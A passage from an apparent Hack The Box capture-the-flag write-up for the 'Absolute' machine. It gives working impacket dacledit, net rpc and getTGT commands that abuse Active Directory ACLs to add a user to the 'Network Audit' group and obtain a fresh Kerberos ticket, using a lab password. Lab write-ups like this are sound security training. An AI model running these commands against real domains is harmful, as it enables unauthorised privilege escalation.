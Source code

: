 ![image45](../resources/cf08942530b34e66a28136cc29a03de2.png)

- Because the ACL's get removed, we need to do everything in quick succession:

```bash
python3 dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action write -principal 'm.lovegod' -target 'Network Audit' && python3 dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action read -principal 'm.lovegod' -target 'Network Audit' && **net rpc group addmem "Network Audit" 'm.lovegod' -U 'absolute.htb/m.lovegod' --use-kerberos=required -S dc.absolute.htb --realm absolute.htb**

```

![image46](../resources/9621bad15b734444a47aca43ab835103.png)

- And then we can check the group members to be sure:

```bash
net rpc group members "Network Audit" -U 'absolute.htb/m.lovegod' --use-kerberos=required -S dc.absolute.htb --realm absolute.htb

```

![image47](../resources/5d69b03818e44e22a4d811d92498e887.png)

Now we are member of Network Audit, we need to get a new TGT for m.lovegod and export it, because the permissions we granted to m.lovegod are not applied to TGT we currently have

```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!'

```

![image48](../resources/a514bd4441aa45b8bb9980d77d0ee497.png)
